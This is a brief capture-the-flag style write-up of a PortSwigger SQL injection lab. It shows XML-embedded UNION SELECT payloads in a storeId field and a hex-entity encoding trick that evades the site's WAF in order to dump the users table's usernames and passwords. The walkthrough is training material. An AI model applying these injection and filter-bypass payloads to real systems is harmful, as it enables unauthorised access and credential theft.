 # Hi hackers, Today we will play this [LAB](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-in-different-contexts/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

Let's go discover our website:

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/37be3471-dbdf-4bb3-ab25-6d8493f67c64)


No there vulnerablity here.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/2bcfe6a4-99a3-4325-8860-256a1b76f8dc)

Ok Here we can exploit ```Check Stock``` button.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/ae0b97bc-ff0a-4672-b398-8a5392781b17)


Ok We can add our payload inside ```<storeId>```

```
<storeId>
  1 UNION SELECT NULL
</storeId>
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8d523d84-0598-474d-8751-c0c63e4fcb00)


Hmmm WAF detected this attack :)

Ok Let's encoding this payload to bypass this fuck WAF :(


[Screencast from 2024-07-05 12:19:54 AM.webm](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/1fde7971-7740-4130-a47a-adc54da8b1e0)



### WOoow we can exploit it . Let's go steal acccount of administrator , we will use this payload:


```
<storeId>
  <@hex_entities>
    1 UNION SELECT username||':'||password FROM users
  <@/hex_entities>
</storeId>
```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/ccd347f7-f1ec-40d1-a7cd-c6b57f688727)


Woow We got on Account of admin is ```administrator:y5swfqstminpfg0rwhk0```






















